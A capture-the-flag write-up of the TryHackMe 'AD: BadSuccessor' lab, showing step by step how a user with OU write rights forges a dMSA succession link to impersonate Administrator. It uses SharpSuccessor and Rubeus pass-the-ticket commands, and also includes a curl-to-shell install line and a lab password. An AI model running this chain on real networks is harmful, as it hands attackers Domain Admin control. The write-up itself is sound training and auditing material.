









# TryHackMe: AD — BadSuccessor — Writeup

**Category:** Active Directory — Modern Privilege Escalation Technique
**Difficulty:** Hard
**Skills Demonstrated:** OU Permission Enumeration (PowerShell & bloodyAD), delegated Managed Service Account (dMSA) Abuse — the "BadSuccessor" Technique, SharpSuccessor Exploitation, Kerberos Ticket Manipulation (Rubeus: TGT Delegation, TGS Requests, Pass-the-Ticket), Cross-Platform LDAP Enumeration

---

## Objective

Exploit **BadSuccessor** — a 2025-disclosed Active Directory privilege escalation technique targeting **delegated Managed Service Accounts (dMSA)** — to escalate from a standard domain user with limited OU write permissions all the way to Domain Administrator, without ever cracking a password or touching a hash.

---

## Background: What Is BadSuccessor?

Windows Server 2025 introduced dMSAs as a modernized replacement for group Managed Service Accounts, designed to let an admin "migrate" an existing service account's identity onto a new managed account for a clean credential rotation. The migration works by linking the new dMSA to the account it's succeeding via the `msDS-ManagedAccountPrecededByLink` attribute and setting `msDS-DelegatedMSAState`.

The flaw: Active Directory never verifies that the account performing the "migration" actually has any relationship to the account being succeeded. **Anyone with permission to create a computer/dMSA object in an OU — and to write those two attributes — can create a dMSA that claims to be the successor of any account in the domain, including Domain Admins**, and Kerberos will honor that claim.

---

## 1. Initial Access

```powershell
# RDP as tbyte to tryhackme.local
```



Connected as `tbyte`, a standard domain user on `tryhackme.local`.

---

## 2. OU Permission Enumeration

```powershell
dir C:\PoC
.\Get-BadSuccessorOUPermissions.ps1
```



The `C:\PoC` directory came pre-staged with the exact tooling needed for the attack: `Get-BadSuccessorOUPermissions.ps1`, `Rubeus.exe`, and `SharpSuccessor.exe`. Running the permissions script confirmed that **`tbyte` held write permissions over `OU=LabOU,DC=tryhackme,DC=local`** — the exact right needed to create and configure a dMSA object inside that OU.

---

## 3. Weaponizing a dMSA with SharpSuccessor

```powershell
.\SharpSuccessor.exe add /path:"ou=LabOU,dc=tryhackme,dc=local" /account:tbyte /name:pentest_dmsa /impersonate:Administrator
```



SharpSuccessor created a new dMSA object, `pentest_dmsa`, inside `LabOU`, and set its `msDS-ManagedAccountPrecededByLink` to point at **Administrator** — falsely claiming this new account is Administrator's successor:

```
[+] Administrator's DN identified
[+] Attempting to write msDS-ManagedAccountPrecededByLink
[+] Wrote attribute successfully
[+] Attempting to write msDS-DelegatedMSAState attribute
[+] Attempting to set access rights on dMSA object
[+] Successfully weaponized dMSA object
```

No membership in any privileged group was needed — only the OU write permission already confirmed in the previous step.

---

## 4. Requesting a Delegation TGT

```powershell
.\Rubeus.exe tgtdeleg /nowrap
```



Used Rubeus's `tgtdeleg` action to obtain a usable TGT for the current user (`tbyte`) via a fake delegation request — a standard Rubeus building block for chaining into further Kerberos operations without needing the account's actual password or hash.

---

## 5. Requesting a TGS for the Weaponized dMSA

```powershell
.\Rubeus.exe asktgs /targetuser:pentest_dmsa$ /service:krbtgt/tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<delegation_ticket>
```




Using the `/dmsa` flag, Rubeus requested a service ticket **as** `pentest_dmsa$` against the `krbtgt` service. Because the dMSA claims to be Administrator's successor, the KDC included Administrator's key material when servicing this request — surfaced directly in the output as the dMSA's "Current Keys."

---

## 6. Escalating to a CIFS Ticket and Pass-the-Ticket

```powershell
.\Rubeus.exe asktgs /user:pentest_dmsa$ /service:cifs/DC-LAB2025-01.tryhackme.local /opsec /dmsa /nowrap /ptt /ticket:<previous_ticket>
```



Requested a second ticket — this time for the `cifs` service on the Domain Controller — again as `pentest_dmsa$`, and passed `/ptt` to inject it directly into the current logon session. Since the dMSA inherited Administrator's identity via the forged succession link, this ticket carried Administrator-equivalent access to the DC's file shares.

---

## 7. Domain Compromise — Root Flag

```powershell
dir \\DC-LAB2025-01.tryhackme.local\c$\Users\Administrator\Desktop\
type \\DC-LAB2025-01.tryhackme.local\c$\Users\Administrator\Desktop\flag.txt
```



Accessed the Domain Controller's administrative `C$` share and read the root flag directly from Administrator's Desktop — full domain compromise achieved entirely through Kerberos ticket manipulation, with no password cracking, no hash extraction, and no traditional lateral movement.

---

## 8. Cross-Verification via bloodyAD (Linux)

To confirm the same misconfiguration is detectable independent of the Windows-native tooling used for exploitation, re-enumerated the writable OU permissions from a Linux attack box using **bloodyAD**:

```bash
curl -LsSf https://astral.sh/uv/install.sh | sh
uv tool install --python 3.13 git+https://github.com/CravateRouge/bloodyAD
bloodyad -d tryhackme.local -u 'tbyte' -p 'P@SSw0rd345' --host DC-LAB2025-01.tryhackme.local get writable --detail
```



The output independently confirmed `tbyte`'s write access over `OU=LabOU`, including `CREATE_CHILD` rights — the exact permission SharpSuccessor relied on — plus write access to the `pentest_dmsa` object's DACL itself. This is a useful reminder that the underlying misconfiguration is a plain, LDAP-visible ACL issue; the exploit tooling is just what turns visibility into compromise.

---

## Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| A standard user (`tbyte`) held `CREATE_CHILD` and object-write permissions over an OU | Allowed creation and full configuration of a new dMSA object with no elevated group membership |
| Active Directory does not validate that a dMSA's claimed "predecessor" account has any real migration relationship to it | Let any writable-OU holder forge succession from an arbitrary account, including Domain Admins |
| Kerberos trusts the `msDS-ManagedAccountPrecededByLink` attribute at face value when issuing tickets for a dMSA | Converted a directory-object write into full impersonation of the linked account's Kerberos identity |
| No monitoring/alerting on dMSA creation or `msDS-ManagedAccountPrecededByLink` attribute writes | The entire attack chain — object creation, ticket requests, pass-the-ticket — leaves a distinct but easily-missed audit trail if nobody is watching for it |
| Delegated OU permissions issued without considering downstream dMSA-creation rights | A permission granted for a mundane reason (managing objects in a lab OU) became a direct path to Domain Admin under Windows Server 2025's dMSA model |

---

## Key Takeaways

- **BadSuccessor is the clearest demonstration in this entire series that AD privilege escalation isn't just about old techniques** — this is a 2025-disclosed flaw in a *brand-new* feature (dMSA), proving that modernizing AD infrastructure can introduce new attack surface just as easily as it closes old gaps.
- **OU-level write permissions are far more dangerous than they look.** A permission delegated for routine object management in a lab OU turned into a direct Domain Admin path once dMSAs entered the picture — permission reviews have to account for what *new* AD features make possible, not just what was true when the delegation was granted.
- **This attack needed zero credentials theft, zero password cracking, and zero traditional lateral movement** — just directory object permissions and Kerberos ticket requests. It's a strong reminder that "no hash, no problem" doesn't mean "no risk."
- **Cross-verifying with bloodyAD mattered** — the same misconfiguration was fully visible from a completely different tool and platform, proving this is a genuine, tool-agnostic ACL weakness rather than an artifact of one specific exploit chain.
- **This room is the perfect closing chapter for the whole roadmap.** Starting from Pickle Rick's basic web injection through Brainpan 1's from-scratch binary exploitation and into full AD attack chains, this series has covered the breadth expected of an offensive security portfolio — and BadSuccessor lands squarely on the exact class of finding my **[AD Security Auditor](https://github.com/mohd-atif245/ad-security-auditor)** tool is built to surface: over-permissioned OU delegations and dangerous object-creation rights, detectable read-only over LDAP before anyone needs to run SharpSuccessor at all.

---

*Room: [TryHackMe — AD: BadSuccessor](https://tryhackme.com/room/adbadsuccessor)*
